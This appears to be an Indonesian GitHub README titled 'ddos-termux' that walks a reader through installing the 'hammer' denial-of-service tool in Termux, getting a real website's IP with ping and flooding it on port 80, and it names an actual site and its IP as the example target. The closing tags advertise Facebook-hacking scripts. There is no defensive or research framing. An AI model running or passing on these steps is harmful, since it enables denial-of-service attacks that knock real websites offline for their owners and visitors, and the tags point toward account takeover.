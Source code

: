 # ddos-termux


1. Buka apk termux

2. Ke dua masukan command ini 
    
    $ pkg install git

    $ pkg install python ( jika ada text "y/n" klik aja "y" )

    $ git clone http://github.com/cyweb/hammer

    $ cd hammer

    $ python hyammer.py

2. Cara menggunakan nya adalah dengan cara berikut!

    Cari IP adress web nya masukan command ini di Termux :
    
    - ping (website target)

    Contoh saya ingin DDOS website porno www.nekopoi.com maka saya akan cari IP nya
    dengan masukan command :

    - ping www.nekopoi.com

    Maka akan keluar alamat IP website nya dan alamat IP nya adalah 95.211.219.65


3. lalu jika ingin menyerang nya menggunakan command ini :

    - python3 hammer.py -s (IP adress web) -p 80 -t 135



PENJELASAN :

bagian "-s" adalah IP adres targetnya ok?
bagiian "-p" adalah PORT weeb target... port default adalah 80
bagian "-t" adalah bagian untuk kiriman data kita ke web targetnya defaultnya 135

Tag:
script termux
Tools termux terbaru
Script dark fb terbaru
Script dark fb versi 3.4
Tutorial termux
Cara hack face book
Hack Bae
Termux
Cara install dark fb
Cara menggunakan dark fb
